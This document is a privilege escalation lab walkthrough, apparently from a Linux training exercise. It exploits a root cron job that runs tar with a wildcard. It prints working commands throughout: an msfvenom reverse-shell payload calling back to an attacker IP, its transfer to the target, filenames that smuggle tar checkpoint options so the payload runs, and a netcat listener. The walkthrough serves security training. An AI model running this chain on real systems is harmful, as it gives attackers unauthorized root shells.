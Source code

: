 View the contents of the other cron job script:
```
cat /usr/local/bin/compress.sh
```
```
user@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
Note that the tar command is being run with a wildcard (*) in your home directory.

Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.

Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
Transfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget)
```
root@ip-10-10-91-58:~# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.91.58 LPORT=4444 -f elf -o shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf
root@ip-10-10-91-58:~# scp shell.elf user@10.10.34.1:/home/user
user@10.10.34.1's password: 
shell.elf                                     100%  194   200.5KB/s   00:00
```
```
user@debian:~$ ls -l
total 16
...
-rw-r--r-- 1 user user  194 Jan  1 12:15 shell.elf
...
```
Make sure the file is executable:
```
chmod +x /home/user/shell.elf
```
Create these two files in /home/user:
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```
When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.
```
nc -nvlp 4444
```

Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:
```
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```